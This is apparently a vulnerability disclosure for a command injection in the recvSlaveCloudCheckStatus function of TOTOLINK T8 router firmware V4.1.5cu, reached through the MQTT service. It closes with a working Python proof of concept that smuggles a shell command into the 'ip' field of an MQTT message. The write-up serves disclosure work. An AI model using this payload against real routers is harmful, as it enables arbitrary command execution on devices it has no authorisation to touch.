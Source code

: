 # A command injection vulnerability in the function recvSlaveCloudCheckStatus of TOTOLINK Technology routers T8 V4.1.5cu allows attackers to execute arbitrary commands via a crafted MQTT packet.

## Description

A command injection vulnerability in the function recvSlaveCloudCheckStatus of TOTOLINK Technology routers T8 V4.1.5cu allows attackers to execute arbitrary commands via a crafted MQTT packet.

![image-20230116184500942](images/2.png)

## Firmware information

* Manufacturer's address:https://www.totolink.net/

![image-20230116184157081](images/1.png)

* Firmware download address : https://totolink.com.my/wp-content/uploads/2023/01/TOTOLINK_C8195R-1C_T8_IP04455_8197F_SPI_16M128M_V4.1.5cu.741_B20210916_ALL.zip

## Affected version

**Version: V4.1.5cu**

## Vulnerability details

The `T8` router opens the `MQTT` service

![image-20230116185238612](images/5.png)

In function `recvSlaveCloudCheckStatus`,The "ip" parameter does not filter user input, which can cause command injection vulnerabilities



![image-20230116190613535](images/3.png)

POC

```
import paho.mqtt.client as mqtt
client = mqtt.Client()
client.connect("192.168.0.1",1883,60)
client.publish("totolink/router/recvSlaveCloudCheckStatus", b'{"ip": ";`ls>/tmp/recvSlaveCloudCheckStatus_ip.txt`;"}')
```

![image-20230116190913541](images/4.png)